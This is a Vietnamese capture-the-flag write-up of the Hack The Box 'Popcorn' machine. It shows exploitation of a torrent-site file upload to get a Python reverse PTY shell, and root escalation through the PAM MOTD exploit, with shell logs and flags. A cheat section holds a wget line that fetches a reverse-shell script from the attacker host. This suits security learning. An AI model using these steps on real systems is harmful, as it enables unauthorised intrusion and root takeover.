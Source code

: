 ```yaml
---
title: "PopCorn HTB"
excerpt: "December 10, 2024 04:00 PM ICT to December 10, 2024"

header:
show_date: true
header:
  teaser: "../assets/images/images-icon/popcorn.jpg"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/lame.jpg"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


# Popcorn

![image](https://hackmd.io/_uploads/HyBs3ywV1l.png)

Có thể thấy là máy chủ mở 2 dịch vụ là ssh ở cổng 22 + Apache httpd 2.2.12 ở cổng 80.

os: `linux`

![image](https://hackmd.io/_uploads/r1T21xD4yl.png)

sau khi scan 1 lúc nhận được file php info trên cổng 80 chạy apache bật tính năng upload file.

![image](https://hackmd.io/_uploads/BJlBzxwN1x.png)

![image](https://hackmd.io/_uploads/ByGsfgPV1x.png)

### Creat python pty-tcp-backconnect

![image](https://hackmd.io/_uploads/SkdjHW_Nkg.png)

sau khi register -> login ta thực hiện upload 1 file torren lên

![image](https://hackmd.io/_uploads/HkbCr-OE1e.png)

có thể thấy đã upload thành công  -> tiếp theo ta có thể tải các tệp đính kèm lên:

![image](https://hackmd.io/_uploads/BJ1WIWONkx.png)

![image](https://hackmd.io/_uploads/HJC_L-uEyl.png)

![image](https://hackmd.io/_uploads/BkghLbOVJx.png)

![image](https://hackmd.io/_uploads/HyV6UZd41l.png)

-> thực hiện get shell của ta về

![image](https://hackmd.io/_uploads/ryBxQGONkx.png)

![image](https://hackmd.io/_uploads/rkwW7fOEke.png)

![image](https://hackmd.io/_uploads/SkEf7fOVyg.png)

![image](https://hackmd.io/_uploads/rkrlEGdEJx.png)

```
l3mnt2010@ASUSEXPERTBOOK:~/new/htb/popcorn/python-pty-shells$ python2 tcp_pty_shell_handler.py -b 10.10.14.29:4444
www-data@popcorn:/var/www/torrent/upload$ ls
723bc28f9b6f924cca68ccdff96b6190566ca6b4.png  noss.png
7b1490474e51536e1a7ac0dfec2467e86da232a4.php
www-data@popcorn:/var/www/torrent/upload$ cd /home/
www-data@popcorn:/home$ ls
george
www-data@popcorn:/home$ cd george/
www-data@popcorn:/home/george$ ls
torrenthoster.zip  user.txt
www-data@popcorn:/home/george$ cat user.txt
d5c07b7925bbe12d0fd03182025dd383
```

user flag: `d5c07b7925bbe12d0fd03182025dd383`

![image](https://hackmd.io/_uploads/S12nwGOEkg.png)

![image](https://hackmd.io/_uploads/H1ZhvGuVyx.png)

có 2 mã khai thác leo quyền:

```
www-data@popcorn:/home/george$ dpkg -l | grep -i pam
ii  libpam-modules                      1.1.0-2ubuntu1                    Pluggable Authentication Modules for PAM
ii  libpam-runtime                      1.1.0-2ubuntu1                    Runtime support for the PAM library
ii  libpam0g                            1.1.0-2ubuntu1                    Pluggable Authentication Modules library
ii  python-pam                          0.4.2-12ubuntu3                   A Python interface to the PAM library
www-data@popcorn:/home/george$
```

có thể thấy hệ thống cũng có 1.1.0 ubuntu như ở trên -> ta thử từng payload

![image](https://hackmd.io/_uploads/Byl_Z7d41e.png)

`Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (1)    | linux/local/14273.sh` không khai thác được bug trên chuyển xuống bug dưới

https://www.exploit-db.com/exploits/14339

![image](https://hackmd.io/_uploads/SyxCdfdNJg.png)

![image](https://hackmd.io/_uploads/BkbGfXd4kx.png)

```
www-data@popcorn:/dev/shm$ ls -la
total 8
drwxrwxrwt  2 root     root       80 Dec 12 10:35 .
drwxr-xr-x 14 root     root     3300 Dec 12 08:08 ..
-rw-r--r--  1 www-data www-data 3042 Dec 12 10:39 .priv.sh
-rw-r--r--  1 www-data www-data  687 Dec 12 09:36 .rev.py
www-data@popcorn:/dev/shm$ bash .priv.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password:
root@popcorn:/dev/shm# whoami
root
root@popcorn:/dev/shm# cat /root/root.txt
4308af9d3b2008677a399e484108c8d2
root@popcorn:/dev/shm#
```

root flag: `4308af9d3b2008677a399e484108c8d2`

![image](https://hackmd.io/_uploads/SkwsM7_Nyg.png)

## cheat

`lam=wget 10.10.14.29:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py`

`find /home -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null | column -t`

`xclip` -> sap chép vào khay nhớ tạm.

`l3mnt2010@ASUSEXPERTBOOK:~/new/htb/popcorn/python-pty-shells$ python2 tcp_pty_shell_handler.py -b 10.10.14.29:4444` pty shell python2
